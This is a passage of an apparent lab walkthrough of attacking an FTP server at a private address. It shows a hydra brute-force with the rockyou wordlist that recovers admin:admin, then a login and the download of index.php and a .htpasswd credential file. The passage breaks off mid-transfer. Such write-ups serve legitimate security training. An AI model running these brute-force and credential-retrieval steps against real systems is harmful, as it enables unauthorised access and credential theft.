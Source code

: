 ```bash
----------   1 root     root          926 Aug 13 04:13 acc[admin].uac
226 Closing data connection.
ftp> exit
221 Goodbye.
kali@kali:~$

This directory contains a UAC account file for the admin user.
Exploitation
FTP User Login Brute-Force

Let’s brute-force the admin account with hydra and the rockyou.txt wordlist.

kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.68.46
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-27 17:43:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.68.46:21/
[21][ftp] host: 192.168.68.46   login: admin   password: admin
[STATUS] attack finished for 192.168.68.46 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 17:43:44
kali@kali:~$

This reveals that the password is admin.
Further FTP Enumeration

We can now log in to FTP with the admin:admin credentials and enumerate further.

kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp>

Inside this user’s directory, we find three files: index.php, .htpasswd, and .htaccess. Let’s download them to our attack machine for closer inspection.

ftp> get index.php
local: index.php remote: index.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
76 bytes received in 0.10 secs (0.7232 kB/s)
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
200 PORT Command successful.
150 File status okay; about to open data connection.
```